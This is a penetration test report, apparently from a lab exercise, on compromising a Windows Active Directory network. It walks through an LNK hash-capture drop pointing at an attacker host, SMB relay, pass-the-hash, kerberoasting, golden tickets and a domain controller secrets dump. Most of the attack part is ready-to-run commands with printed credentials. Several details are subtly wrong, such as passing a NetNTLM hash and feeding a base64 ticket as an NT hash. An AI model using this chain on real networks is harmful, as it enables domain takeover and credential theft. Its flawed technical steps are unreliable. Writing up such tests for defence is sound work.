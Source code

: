 # Comprehensive Penetration Testing Report for Doomsday Labs

## Executive Summary
This document presents a detailed account of the penetration testing executed against Doomsday Labs' network, covering IP addresses from 10.100.1.2 to 10.100.1.7. The primary goal was to identify vulnerabilities within the network and find potential security risks using various techniques including OSINT, SMB Relay attacks, Credential Dumping, and Active Directory Exploitation.

## Test Environment
- **Scope**: Examined IP addresses range from 10.100.1.2 to 10.100.1.7.
- **Operating Systems**: Targets on Windows Server 2019; Attacks from Kali Linux.
- **Tools Used**: Nmap, Crackmapexec, Responder, Hashcat, Impacket, Bloodhound, Neo4j, pypykatz/mimikatz, Evil-WinRM.

## Key Exploits and Findings

### LNK File Drop
- **Objective**: To obtain FileMaker's NetNTLM hash via a crafted .LNK file.
- **Methodology**:
    - Created a .LNK file targeting the attacker’s Kali machine.
    - Deployed using the command:
        ```
        crackmapexec smb 10.100.1.4 -u info -p WhenTomorrowisNot@nOption2024 -M slinky -o server=10.100.1.76 name=JK_Flag
        ```
    - Captured the NetNTLM hash using Responder:
        ```
        sudo responder -I tun0 -A
        ```
    - The hash was secured and logged from `/usr/share/responder/logs`.

### SMB Relay and Credential Harvesting
- **Target File**: `targets.txt` — includes scoped IP addresses for testing.
- **Approach**: 
    - Conducted SMB Relay attacks to capture and relay NTLM hashes using:
        ```
        crackmapexec smb 10.100.1.2-7 --gen-relay-list targets.txt
        impacket-ntlmrelayx -smb2support -tf targets.txt
        ```
    - Successfully gathered initial credentials for deeper access into the network.

### Credential Dumping
- **Tools Utilized**: Evil-WinRM, pypykatz.
- **Execution**:
    ```
    evil-winrm -i 10.100.1.4 -u filemaker -H 322e0b51ca281c55:F1F9E4FF7872D084AC0E2CB11DE7D2C0
    ```
- **Outcome**:
    - Accessed various hosts using compromised credentials.
    - Conducted manual credential dumping with pypykatz.
    - **Decrypted Password**: `Football24`

### Active Directory and Kerberos Attacks
- **Active Scanning**:
    ```
    impacket-GetADUsers doomsdaylabs.net/filemaker:Football24 -dc-ip 10.100.1.2 -all
    ```
- **Kerberoasting**:
    ```
    impacket-GetUserSPNs doomsdaylabs.net/filemaker -dc-ip 10.100.1.2 -request
    ```
    - Kerberos tickets were targeted for cracking via Hashcat.
- **Pass the Ticket & Creating Golden Tickets**:
    ```
    impacket-ticketer -nthash doIF0jCCBc6gAwIBBaEDAgEWooIEyz...[snipped]...NXU/rX266m632YeSk3csEUpoKMTPZ -domain-sid S-1-5-21-2774200336-3400690103-1452933870-1111 -domain doomsdaylabs.net da.admin
    KRB5CCNAME=./Administrator.ccache impacket-secretsdump -k -no-pass -dc-ip 10.100.1.2 -target-ip 10.100.1.2 dc.doomsdaylabs.net
    ```
    - **Plain Password**: `Sunshine24`

### Bloodhound Analysis for Lateral Movement
- **Objective**: To trace and exploit potential lateral movement pathways using Bloodhound.
- **Procedure**:
    - Continuously employed Bloodhound to map administrative privilege escalations throughout the network.

## Lateral Movement Pathways
- **Initial Setup**:
    - An LNK file was strategically placed on an SMB Share to intercept FileMaker's NetNTLM hash, facilitating early network entry.
- **Progressive Actions**:
    - Used the obtained credentials for lateral movements, Kerberoasting, and ultimately for accessing the domain controller.

## Mitigations
- **SMB Relay Attack Prevention**: Implement SMB signing and enforce stringent authentication measures to curb relay attacks.
- **Credential Security Enhancement**: Improve monitoring of credential usage and enforce multi-factor authentication where feasible.
- **Active Directory Maintenance**: Regularly update and audit Active Directory configurations. Utilize tools like Bloodhound to preemptively identify and mitigate unusual access patterns or potential escalations.

## Conclusion
The penetration test exposed multiple critical vulnerabilities that could potentially be exploited to gain unauthorized access and control over network resources.

## Appendix
- **Tools and Commands**:
    - `crackmapexec smb 10.100.1.2-7 --gen-relay-list targets.txt`
    - `impacket-ntlmrelayx -smb2support -tf targets.txt`
    - `evil-winrm -i 10.100.1.4 -u filemaker -H [NetNTLM hash]`
    - `pypykatz lsa minidump lsass.dmp`

## References
- [Hashcat Rule-based Attack Guide](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- [CrackMapExec Tool on Kali](https://www.kali.org/tools/crackmapexec/)
- [Using Hashcat for Rule-based Attacks](https://www.armourinfosec.com/performing-rule-based-attack-using-hashcat/)

